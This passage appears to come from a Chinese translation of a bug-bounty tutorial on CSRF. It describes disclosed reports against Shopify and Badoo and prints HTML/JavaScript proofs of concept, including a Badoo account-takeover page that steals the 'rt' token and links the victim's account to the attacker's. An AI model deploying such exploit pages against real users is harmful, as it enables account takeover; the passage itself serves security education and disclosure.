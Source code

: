 由于浏览器进行 GET 请求来获取给定 URL 处的图片，并且不验证任何 CSRF Token ，用户的商店现在已断开连接：

```
<html> 
    <body> 
        <img src="https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect"> 
    </body> 
</html>
```

> 重要结论
> 
> 这种情况下，这个漏洞可以使用代理服务器来发现，例如 Burp 或者 Firefox 的 Tamper Data，来观察发送给 Shopify 的请求，并主要到这个请求使用 GET 方式来执行。由于这是个破坏性操作，而 GET 请求不应该修改任何服务器上的数据，这应该是一些需要关注的事情。

### 3\. Badoo 账户的完整控制

难度：中

URL：`https://badoo.com`

报告链接：`https://hackerone.com/reports/127703`

报告日期：2016.4.1

奖金：$852

描述：

如果你仔细检查 Badoo ，你会发现，它们通过包含 URL 参数`rt`来防御 CSRF，它只有 5 个位数（至少在我写这篇的时候）。虽然我在 Badoo 入驻 HackerOne 的时候就注意到了，我并没有找到利用它的方式，但是`zombiehelp54`找到了。

发现`rt`参数以及其值之后，它也注意到了，参数一户在所有 JSON 响应中都返回。不幸的是，这并没有什么帮助，因为 CORS 保护了 Badoo，攻击者无法读取这些响应，所以它继续挖掘。

最终，文件`https://eu1.badoo.com/worker-scope/chrome-service-worker.js`包含了`rt`值。更好的是，这个文件可以由攻击者任意读取，而不需要受害者做什么，除了浏览这个恶意页面。这里是它提供的代码。

```
<html> 
<head> 
<title>Badoo account take over</title> 
<script src=https://eu1.badoo.com/worker-scope/chrome-service-worker.js?ws=1></s\ cript> 
</head> 
<body> 
<script> function getCSRFcode(str) { 
    return str.split('=')[2]; 
} 
    window.onload = function(){ 
    var csrf_code = getCSRFcode(url_stats); 
    csrf_url = 'https://eu1.badoo.com/google/verify.phtml?code=4/nprfspM3yfn2SFUBear08KQaXo609JkArgoju1gZ6Pc&authuser=3&session_state=7cb85df679219ce71044666c7be3e037ff54b560..a810&prompt=none&rt='+ csrf_code; 
    window.location = csrf_url; 
}; </script>
```

本质上，当受害者加载此页面时，它会调用 Badoo 的脚本，为用户获取`rt`参数，之后代表受害者进行调用，这里，它将受害者的账户链接到了攻击者的，本上上完成了账户的控制。
